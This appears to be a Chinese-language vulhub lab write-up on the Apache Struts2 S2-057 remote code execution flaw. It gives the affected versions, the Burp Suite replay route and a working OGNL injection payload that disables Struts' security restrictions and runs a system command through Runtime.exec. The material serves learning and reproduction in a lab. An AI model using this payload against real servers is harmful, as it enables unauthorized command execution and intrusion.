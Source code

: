 # Struts2_057_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			 定义XML配置时如果没有设置namespace的值，并且上层动作配置中并没有设置或使用通配符namespace时，可能会导致远程代码执行漏洞的发生。同样也可能因为url标签没有设置value和action的值，并且上层动作并没有设置或使用通配符namespace，从而导致远程代码执行漏洞的发生。

​			影响版本

  		2.3 - 2.3.34      2.5 - 2.5.16

### 0x02漏洞复现

#### payload1(RCE)：

http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action

${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('**id**')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}



​			**访问showcase界面**

![S2_057_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_057_rce_1.jpg)

​			**输入payload，发现命令成功执行**

![S2_057_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_057_rce_2.png)





### 0x03参考资料

https://blog.csdn.net/qq_29647709/article/details/84971376
